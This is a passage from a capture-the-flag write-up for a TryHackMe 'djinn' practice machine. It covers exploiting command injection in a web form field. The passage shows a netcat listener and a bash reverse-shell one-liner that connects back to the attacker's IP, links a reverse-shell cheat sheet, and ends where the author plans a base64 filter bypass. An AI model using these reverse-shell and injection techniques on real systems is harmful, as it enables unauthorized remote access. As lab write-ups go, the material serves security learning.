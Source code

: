 ![code](/assets/images/THM/2020-08-14-djinn/18.png)

Nothing is interesting except the field naming, cmd. Let's try a command, i.e **whoami**.

![injection](/assets/images/THM/2020-08-14-djinn/19.png)

We are redirected to /genie again. This time, the page returns the result we wanted. Look like we can perform command injection on the input field. Huh, something not right here, thing going too smooth. But it won't hurt if we give a try.

Firstly, open your netcat listener with the following command as we are going to listen to reverse shell.

```
nc -lvnp 1234
```

By referring to the [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), enter the following line to the input field.

```
bash -i >& /dev/tcp/<tun IP>/123 0>&1
```

![not smooth](/assets/images/THM/2020-08-14-djinn/20.png)

Just what I expected, the thing is running TOO SMOOTH. After doing a short experiment on the input field, some of the special symbols (/ . $ &) are filtered out by the page. To bypass the special symbol, we are going to use the base64 method.
